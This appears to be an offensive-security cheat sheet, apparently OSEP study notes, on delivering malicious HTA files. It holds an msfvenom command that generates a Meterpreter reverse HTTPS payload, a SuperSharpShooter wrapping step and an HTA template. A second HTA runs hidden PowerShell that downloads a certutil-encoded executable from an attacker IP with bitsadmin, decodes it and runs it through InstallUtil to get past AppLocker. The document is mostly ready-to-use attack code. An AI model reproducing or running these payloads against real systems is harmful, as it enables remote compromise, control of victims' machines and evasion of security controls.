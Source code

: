 # HTA
### SuperSharpShooter
https://github.com/SYANiDE-/SuperSharpShooter
The original sharpshooter no longer works. 

`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.xxx LPORT=443 -e x64/xor_dynamic  -b '\\x00\\x0a\\x0d' -f raw  > rawsc.bin`

NOTE: As of now supersharpshooter doesn't work with the --payload of hta. You have to do payload js and the put it in an hta with the script provided.

`./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile ~/OSEP/rawsc.bin --payload js --output test`

Generate HTA python script from [@emvee_nl](https://github.com/emvee-nl):

generateHTA.py

python3 generateHTA.py --in test.js --out test.hta

OR just paste in the js into the .hta code manually

```
<html>
<head>
<script language="JScript">
**CONTENT OF TEST.JS HERE**
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

## Certutil
I first saw this method on this youtube video:
https://www.youtube.com/watch?v=63eE_DYrmvc


https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/AppLocker%20Bypass%20PowerShell%20Runspace

Compile this but with the correct IP and powershell stuff. Use certutil to encode it
`certutil.exe -encode .\AppLocker.exe enc.txt`

Put enc.txt in the same folder as your ps1 payload.

Then make a cert.hta file with these contents:
(And obviously change the IP address)
```
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var re = shell.Run("powershell -windowstyle hidden bitsadmin /Transfer newjob3 http://192.168.45.223/installrev.txt c:\windows\tasks\enc.txt;certutil -decode c:\windows\tasks\enc.txt c:\windows\tasks\b.exe;C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\windows\tasks\b.exe")
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```